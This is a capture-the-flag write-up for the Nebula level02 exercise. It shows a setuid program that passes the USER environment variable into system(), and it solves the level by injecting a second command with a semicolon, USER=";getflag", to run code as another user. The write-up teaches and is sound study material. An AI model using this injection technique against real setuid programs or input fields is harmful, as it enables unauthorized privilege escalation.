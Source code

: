 # Challenge
Find and exploit the vulnerability in the given program that allows the execution of an arbitrary program.

Challenge Link: https://exploit.education/nebula/level-02/

# Solution
Looking at the provided source code the program calls whatever is the buffer which it populates from the `USER` environment variable. We can confirm this by running the program without modiyfing anything.
```shell
level02@nebula:~$ echo $USER
level02
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
```

If we take a look at the provided program, we can see it, like in past problems, has the setuid bit set.
```shell
level02@nebula:~$ ls -la /home/flag02/flag02
-rwsr-x--- 1 flag02 level02 7438 2011-11-20 21:22 /home/flag02/flag02
```

So we know we need to get this program to run the `getflag` program to solve the level. Since we control the `USER` environment variable which is passed into the system call we can do some simple command injection.
```shell
level02@nebula:~$ USER=";getflag"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo ;getflag is cool")

You have succesfully executed getflag on a target acount
```

Success! We have solved level02. So what happened here?

Taking a look at the output of the `flag02` program is a good visual representation of what happened. We ended the call to `/bin/echo` with a semicolon and then provided our own program to run, `getflag`. Since the `flag02` program has the setuid bit set `getflag` ran under the flag02 user solving the level.
